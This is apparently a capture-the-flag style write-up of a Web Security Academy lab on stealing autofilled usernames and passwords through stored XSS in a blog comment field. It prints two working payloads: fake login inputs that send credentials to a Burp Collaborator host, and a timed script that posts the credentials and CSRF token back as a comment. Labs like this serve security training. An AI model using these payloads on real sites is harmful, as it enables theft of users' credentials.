




In this lab, we must already know which fields we want to steal. We want to steal the `username` and `password` fields of the user. We will find an XSS point, and then add a payload that will submit an HTTP request to our Burp Collaborator server with the input fields of the username and password fields. Note that both of these fields must be autofulfilled by the browser, so the user has to accept the autofulfillment. In this case, the user has accepted them, so he is vulnerable.

We will try adding an XSS payload in the comment section:

The script gets executed, so we know there is an XSS:


We now create our specialized script with two input fields, `username` and `password`. These will be fulfilled by the browser, and then sent to our Burp Collaborator server.
The payload that is explained by Burp Suite is the following:

`
```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">
```
They are two input fields, both with the name copied from real input names of the website (so the browser autoplaces content there), and then, the password field has a script that sents a request to our Burp Collaborator server with the content of **both fields**. This script will be triggered when the field changes, this is when the browser places the password in the field automatically.

Adding this script as the XSS payloads effectively makes us obtain the credentials of the user in Burp's collaborator:


Note that this lab can be solved with another type of scripts. I like this more:
```javascript
<form><input type="text" id="username" name="username"></form>
<form><input type="password" id="password" name="password"></form>
<script>
window.onload = function(e) {
    setTimeout(function() {
        var csrf = document.getElementsByName("csrf")[0].value;
        var username = document.getElementById("username").value;
        var passw = document.getElementById("password").value;
        console.log(csrf);
        fetch('https://ac741f481eba7f5d80a83ee7003a00d0.web-security-academy.net/post/comment', {
            method: 'POST',
            body: 'csrf=' + csrf + '&postId=3&comment=Username: ' + username + ', Password: ' + passw + '&name=Jan&email=admin%40cmdnctrl.net&website='
        });
    }, 2500);
};
</script>
```

The usage of this script is the same, but we can see that first we declare the fields and then we append an script that extact this information after a timeout of 2.5s.

Anyways, we got this laboratory:


